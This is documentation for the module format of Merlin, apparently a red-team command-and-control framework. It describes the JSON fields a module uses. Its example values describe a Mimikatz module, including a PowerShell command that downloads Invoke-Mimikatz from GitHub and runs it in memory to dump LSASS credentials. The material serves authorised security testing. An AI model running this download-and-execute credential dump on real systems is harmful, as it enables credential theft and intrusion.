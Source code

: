 # Merlin Modules
Modules are used to perform a set of pre-defined actions or execute a
program on an agent. The modules are described using JavaScript Object
Notation (JSON). Modules will be stored in `platform/arch/language/type`
 directories. Every module _must_ have the `base` object and _may_ have
 additional objects. Examples of the module structures can be found in
 the `data/modules/templates` directory. All keys used when describing a
 module will be lowercase (i.e. name and NOT Name).

## Base
The `base` module is required and is the lowest level of describing a
module and its function.


 Name   | Type  | Description | Example
 ---    | ---   | ---   | ---
 name   | string | The name of the module | "name": "MyModuleName"
 [type](#Type) | string | `standard` or `extended` | "type": "standard"
 author | array of strings  | The names of the people that created the Merlin module | "author": ["Russel Van Tuyl (@Ne0ndog)"]
 credits | array of strings | A list of people to credit for underlying tools or techniques | "credits": ["Will Schroeder (@harmj0y)"]
 path   | array of strings | The file path to the module| "path": ["C", "windows", "system32"]
 platform   | string | The target platform the module can run on | "platform": "linux"
 arch   | string | The target architecture the module can run on | "arch": "x64"
 lang   | string | The target language the module leverages | "lang": "powershell" or "lang": "bash"
 privilege | bool | Does the module require elevated privileges? | "privilege": true
 notes | string | Miscelaneous notes about the module | "notes": "This module doesn't work well on Ubuntu 14.04"
 [remote](#Remote-vs-Local) | string | The remote path where the script associated with the module can be found | "remote": "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"
 [local](#Remote-vs-Local) | array of strings | The local file system path where the script associated with the module can be found | "local": ["data", "src", "PowerSploit", "Exfiltration", "Invoke-Mimikatz.ps1"]
 [options](#Options) | array of objects | The configurable options for the module | "options": [{"name": "DumpCreds", "value": "true", "required": false, "description":"[Switch]Use mimikatz to dump credentials out of LSASS."}]
 description | string | A description of the module and its function | "description": "his script leverages Mimikatz 2.0 and Invoke-ReflectivePEInjection to reflectively load Mimikatz completely in memory."
 commands | array of strings | A list of the commands to be executed on the host when running the script | "commands": ["powershell.exe", "-nop", "-w", "0", "\"IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');","Invoke-Mimikatz", "{{DumpCreds.Flag}}", "{{DumpCerts.Flag}}", "{{Command}}", "{{ComputerName}}","\""]

### Type

Modules can be either `standard` or `extended`.
